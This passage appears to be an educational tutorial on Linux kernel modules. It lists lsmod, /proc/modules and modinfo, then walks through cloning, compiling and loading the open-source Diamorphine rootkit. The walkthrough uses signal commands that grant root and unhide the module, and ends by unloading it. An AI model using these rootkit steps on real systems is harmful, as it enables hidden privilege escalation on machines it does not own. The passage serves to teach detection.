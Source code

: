 __Loaded Kernel Modules__
```bash
lsmod
# The lsmod utility is used to show the statuses of currently loaded modules in the Linux Kernel.
# The Module column displays the module name.
# The Size column dispays the amount of memory being used by the module in bytes.
# The Used by column displays the number of instances of the module in use. It also shows any system information, such as what might be using the module.
# Source: https://www.computerhope.com/unix/lsmod.htm
```
```bash
less /proc/modules
# The /proc/modules file lists all modules currently loaded into the kernel.
```
__Module Information__
```bash
modinfo <MODULE_NAME>
# The modinfo utility is used to show information about a specified module.
```
  
#### Demonstration:
We'll take a look at the Diamorphine rootkit, a well-known open source Linux rootkit used for research purposes, to demonstrate their dangers.
First, download the Diamorphine project from GitHub (Copyright (c) 2014, Victor N. Ramos Mello
All rights reserved.):
```bash
git clone https://github.com/m0nad/Diamorphine
```
This will create a directory titled 'Diamorphine' in the directory you cloned the project from. Change you working directory to Diamorphine:
```bash
cd Diamorphine
```
Next, we need to compile the module using the provided Makefile:
```bash
make
```
If you take another look at the directory, you'll see a few more files added. Particularly, we care about the one with the .ko extension, as it is the actual kernel object, or LKM.
We can then load this module into the kernel:
```bash
insmod diamorphine.ko
```
What can you see? Or rather, what can you not see? Is it actually loaded? Try issuing the following command and then check what user you are:
```bash
kill -64 0
```
By default, the diamorphine module is hidden. To make it visible, issue the following command:
```bash
kill -63 0
```
Now check what modules are loaded and you should see diamorphine. Also, take a look at the module info for the diamorphine.ko file and compare it to a legitimately loaded module.
When you're done, you can remove diamorphine with the command:
```bash
rmmod diamorphine
```
* * *
